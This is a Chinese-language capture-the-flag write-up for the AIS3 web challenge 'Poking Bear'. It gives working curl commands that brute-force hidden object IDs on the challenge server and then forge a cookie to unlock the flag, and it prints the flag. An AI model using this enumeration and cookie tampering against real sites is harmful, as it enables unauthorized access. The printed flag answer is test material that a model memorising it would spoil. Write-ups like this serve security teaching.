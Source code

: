 # Poking Bear
## 題目

## 解題
網頁內容是你可以選一隻 bear poke，但你要 poke 到 SECRET BEAR 才能拿到 Flag，但是 SECRET BEAR 的 bear id 他是隱藏的，然而第一隻到最後一隻的 id 是 5-999 那就用最原始的方式爆掃一波。

``` bash
#!/bin/bash                                                                                                                                                                                                                                                                                                                                                                                                                                                                               > /tmp/output

for a in $(seq 1 1 1000)
do
    echo "$a: $(curl -X POST http://chals1.ais3.org:8987/poke -d "bear_id=$a")" >> /tmp/output &
done   
```

找與眾不同的那個 
``` bash
grep -v "You shouldn't poke a cat!" /tmp/output | grep -v "Poked, but nothing happened!"
```

他說你不是 `bear poker` 八成要改 cookie。

``` bash
curl -X POST http://chals1.ais3.org:8987/poke --header "cookie: human=\"bear poker\"" -d "bear_id=499"
```

## Flag
`AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`